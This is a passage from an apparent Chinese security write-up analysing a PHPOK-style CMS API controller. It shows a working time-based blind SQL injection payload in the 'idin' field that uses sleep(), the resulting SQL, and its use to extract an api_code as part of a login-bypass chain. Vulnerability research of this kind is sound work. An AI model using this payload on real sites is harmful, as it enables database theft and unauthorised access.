            $this->error(P_Lang('系统禁止改写类型参数'));
        }

        $call_all = $this->model('call')->all($this->site['id'],'identifier');
        $is_ok = false;
        $rslist = array();
        foreach($data as $key=>$value){
            //检查系统是否有开放SQL调用
            if($call_all && $call_all[$key] && $call_all[$key]['type_id'] == 'sql' && !$this->config['api_remote_sql']){
                $fid = $value['_alias'] ? $value['_alias'] : $key;
                $rslist[$fid] = array('status'=>0,'info'=>P_Lang('禁止远程调用SQL执行，请检查'));
                continue;
            }
            //明文传输将禁用sqlext和sqlinfo
            if(isset($value['sqlext'])){
                unset($value['sqlext']);
            }
            if(isset($value['sqlinfo'])){
                unset($value['sqlinfo']);
            }
            if($call_all && $call_all[$key] && $call_all[$key]['is_api']){
                $tmpValue = $value;
                $fid = $key;
                if($value['_alias']){
                    unset($tmpValue['_alias']);
                    $fid = $value['_alias'];
                }
                $rslist[$fid] = phpok($key,$tmpValue);
                $is_ok = true;
            }else{
                $fid = $value['_alias'] ? $value['_alias'] : $key;
                if($call_all && $call_all[$key] && !$call_all[$key]['is_api']){
                    $rslist[$fid] = array('status'=>0,'info'=>P_Lang('未启用远程调用，请检查'));
                }else{
                    $rslist[$fid] = array('status'=>0,'info'=>P_Lang('没有找到数据调用参数，请检查'));
                }
            }
        }
        if(!$is_ok){
            $this->error(P_Lang('未启用远程调用或没有相关调用参数，请检查'));
        }
        $this->success($rslist);
    }
```

对于传入的`data`参数进行json处理成json数组，数组的key值需要在`phpxx`数据表中查询，当数据表中typeid不为sql时会调用`phpxx()`，把json数组中key和valued当作参数传入，此时key就是需要调用的方法，value就是$rs。同时json中还需要存在`_alias`字段，来使其赋值不报错。

我们来看看数据表情况



有好几个`type_id`为`arclist`的情况，我们就可以构造payload为

```php
data={"m_picplayer":{"_alias":"abc","idin":"1,1 and if(1,1 and sleep(7.1),1)"}}
```



拼接的语句是

```php
 AND l.id IN(1,1 and if(1,1 and sleep(4),1)) 
```

最后返回content后调用`$this->model('list')->arc_count()`，得到最终执行的sql语句



测试也是成功延时，时间是两倍



然后我们就可以通过注入查看之前我们绕过登录所需要的`api_code`，这下终于闭环了。
